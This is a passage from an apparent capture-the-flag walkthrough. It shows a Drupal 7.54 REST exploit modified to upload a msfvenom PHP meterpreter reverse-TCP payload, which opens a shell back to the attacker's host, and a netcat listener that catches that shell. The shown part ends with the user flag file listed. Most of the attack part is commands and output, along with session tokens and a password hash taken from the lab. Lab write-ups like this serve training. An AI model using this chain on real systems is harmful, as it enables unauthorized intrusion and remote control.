     },
    “pass”: “$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE”
    }

**session.json**

    {
    “session_name”: “SESSd873f26fc11f2b7e6e4aa0f6fce59913”,
    “session_id”: “xAmjIUH0wKeDr1QmfFsRWOs6QO_I-NpOEOkd-i3fVkU”,
    “token”: “s4iFtBwozCOf0rxIeloGaQ_KfOY1rGFOUpxNc2z5BH8”
    }

I modified the exploit so it would read from a file that file will contain my php shell.


    $myfile = fopen("payload1.txt", "r") or die("Unable to open file!");
    $payload1 = fread($myfile,filesize(“payload1.txt”));
    $url = ‘10.10.10.9’;
    $endpoint_path = ‘/rest’;
    $endpoint = ‘rest_endpoint’;
    $file = [
    ‘filename’ => ‘ssec.php’,
    ‘data’ => $payload1
    ];

I created a payload named **payload1.txt** and the contents of **payload1.txt** will be uploaded to the webserver as **ssec.php**


    msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.x.x LPORT=1234 -f raw > payload1.txt

now when I run the drupal exploit the payload is written to the web server as a php shell.

**php drupal.php**


    Stored session information in session.json
    Stored user information in user.json
    Cache contains 7 entries
    File written: 10.10.10.9/ssec.php

Now I can catch the shell with netcat
`nc -lvp 1234`

    Connection from [10.10.10.9] port 1234 [tcp/*] accepted (family 2, sport 49214)
    dir
    Volume in drive C has no label.
    Volume Serial Number is 605B-4AAA
    Directory of C:\inetpub\drupal-7.54

Now time to get the user flag ...


    cd C:\Users\dimitris\Desktop
    Directory of C:\Users\dimitris\Desktop
    19/03/2017 09:04 ��
    19/03/2017 09:04 ��
    19/03/2017 09:06 �� 32 user.txt
    1 File(s) 32 bytes
    2 Dir(s) 31.040.098.304 bytes free
